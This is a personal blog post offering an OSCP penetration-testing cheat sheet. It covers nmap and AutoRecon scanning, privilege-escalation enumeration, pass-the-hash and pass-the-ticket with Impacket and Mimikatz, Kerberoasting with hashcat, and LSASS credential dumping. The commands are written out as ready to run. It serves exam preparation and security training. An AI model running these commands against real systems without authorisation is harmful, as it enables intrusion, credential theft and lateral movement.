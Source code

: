 +++
title = 'OSCP Cheat Sheet: An Overview of Essential Penetration Testing Techniques'
date = 2024-09-03T17:07:38-07:00
+++

## 🚀 Introduction

The Offensive Security Certified Professional (OSCP) certification is a benchmark in the field of penetration testing. While this cheat sheet provides an overview of key techniques and tools that were invaluable during my OSCP preparation, it's important to note that mastering the exam requires much more. Success in OSCP demands a deep understanding, hands-on practice, and the ability to think critically under pressure. This guide is designed to be a quick reference, but the journey to OSCP mastery involves a comprehensive commitment beyond what's covered here.

## 🌐 Network Scanning

### 🔍 Host Discovery with Nmap

```bash
# Default probe options, show only online hosts
nmap $RHOST/24 -vv -n -sn -T4

# Extra probes (need root)
nmap $RHOST/24 -vv -n -sn -T4 -PE -PP -PS21,22,23,25,80,113,443,31339 -PA80,113,443,10042 --source-port 53
```

### 🔓 Port Scanning

```sh
# Full TCP scan with OS detection and service/version detection
sudo nmap $RHOST -vv --reason --open -T4 -Pn -p- -A --version-all --osscan-guess -oN full_tcp_nmap.txt

# Quick scan of the top 20 ports
sudo nmap $RHOST -vv --reason --open -T4 -Pn --top-ports 20

# Adjust scan speed
sudo nmap -vv --reason -Pn --min-rate=1000 -p- $IP
```

### 🛠️ Automated Scanning with AutoRecon

```sh
# Run AutoRecon with common extensions and target timeout
sudo $(which autorecon) -v -o ./ -t targets.txt --dirbuster.ext "/,txt,html,php,asp,aspx,jsp" --target-timeout 20
```

## 🎯 Attack Vectors

### 🛑 Unusual Ports and Services

- Check for Non-default Software: Identify services running on non-standard ports and check for public exploits.
- Old Versions: Even if the software version is new, exploits for older versions may still work. Use Searchsploit or Windows Exploit Suggester.

### 🔐 Usernames & Passwords

- Default Credentials: Check for default passwords.
- Password Reuse: Look for reused or weak passwords.
- Web Login Forms: Attempt basic credentials like admin:admin or root:(no password).

### 🌐 Web Application Attacks

- Admin Panels: Weak passwords, code execution via cron jobs, or public exploits.
- SQL Injection (SQLi): Test for SQL injection vulnerabilities.
- File Uploads: Test for unrestricted file uploads leading to remote code execution.

## 🔒 Privilege Escalation

### Linux Privilege Escalation

```sh
# System enumeration
file /bin/bash
cat /etc/*-release
uname -a
hostname

# Check for other users
grep -vE "nologin|false" /etc/passwd

# Writable directories
find / -writable -type d 2>/dev/null

# Cron jobs
ls -lah /etc/cron*
cat /etc/crontab
```

### Windows Privilege Escalation

```sh
# User and group information
whoami /all
net user
net group "Domain Admins" /domain
hostname

# System and network information
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
ipconfig /all
route print
```

### 🛠️ Automated Enumeration Tools

- LinPEAS: ./linpeas.sh -q | tee linpeas.ansi
- WinPEAS: winpeas.exe
- PowerUp: powershell -ep bypass -c ". .\PowerUp.ps1; Invoke-AllChecks"

## Lateral Movement

### Pass the Hash

````sh
# Using Impacket's psexec
impacket-psexec -debug 'domain/user@target_ip' -hashes :ntlm_hash

# RDP with Pass the Hash
xfreerdp +clipboard /log-level:DEBUG /d:domain /u:user /v:target_ip /pth:ntlm_hash

### Pass the Ticket

```sh
# Using Mimikatz
sekurlsa::pth /user:user /domain:domain.com /ntlm:ntlm_hash /run:PowerShell.exe

# List Kerberos tickets
klist

# Impacket - use Kerberos ticket for remote command execution
impacket-psexec -k -no-pass domain/user@target_ip -dc-ip domain_controller_ip
````

## Post-Exploitation

### Manual Enumeration

- User Accounts: net user /domain
- Domain Admins: net group "Domain Admins" /domain
- File System Search: dir c:\users /s flag.txt

### Kerberoasting

```sh
# Using Mimikatz
kerberos::ask
kerberos::list /export

# Crack with Hashcat
hashcat -d 1 -m 13100 --force hash.txt /usr/share/wordlists/rockyou.txt
```

### Dumping Creds

```sh
# Dump LSASS process
cme smb target_ip --local-auth -H ntlm_hash -u administrator -M lsassy --sam

# Extract hashes from a dump
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"
```

## ⚙️ Tools and Resources

### 🛠️ Essential Tools

- AutoRecon: Automated network reconnaissance.
- LinPEAS/WinPEAS: Privilege escalation scripts.
- Impacket: Collection of Python scripts for pentesting.
- BloodHound: Active Directory enumeration.

### 📚 Resources

- PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings
- HackTricks: https://book.hacktricks.xyz
- Windows Exploit Suggester: https://github.com/AonCyberLabs/Windows-Exploit-Suggester
